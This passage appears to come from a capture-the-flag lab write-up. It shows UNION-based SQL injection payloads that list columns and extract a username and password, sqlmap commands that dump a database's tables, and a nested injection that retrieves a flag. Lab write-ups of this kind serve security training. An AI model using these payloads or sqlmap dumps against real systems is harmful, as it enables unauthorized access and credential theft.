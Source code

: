 ```SQL
/user?id=-1 UNION SELECT 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'),3-- -
```
![image-42](https://github.com/user-attachments/assets/aa91c434-01bf-4a3f-b31c-4f7e6f374dbb)

```SQL
/user?id=-1 UNION SELECT 1,(SELECT CONCAT(password, ':', username) FROM users LIMIT 0,1),3-- -
```
![image-43](https://github.com/user-attachments/assets/a89f9e2c-eb1f-4cfd-a966-a6d28037df9a)

<span>&nbsp;</span>

2. Use sqlmap
sqlmap is used to enumerate tables and extract their contents from the sqhell_4 database. 
```BASH
sqlmap -u "$ip/user?id=1" --dbms=mysql --batch --current-db
sqlmap -u "$ip/user?id=1" --dbms=mysql --batch -D sqhell_4 --tables
sqlmap -u "$ip/user?id=1" --dbms=mysql --batch -D sqhell_4 -T users --dump
```
![image-29](https://github.com/user-attachments/assets/b3c2d30d-62d3-4879-af8d-3d2efb5e5220)


If the previous methods fail to extract the flag, a crafted payload can be used to retrieve it by injecting a nested query.
```SQL
/user?id=2 UNION SELECT "1 UNION SELECT null,flag,null,null from flag",null,null FROM information_schema.tables WHERE table_schema=database()
```
![image-30](https://github.com/user-attachments/assets/fb8c59d2-d7dd-4739-b4c5-b6890ca445bf)


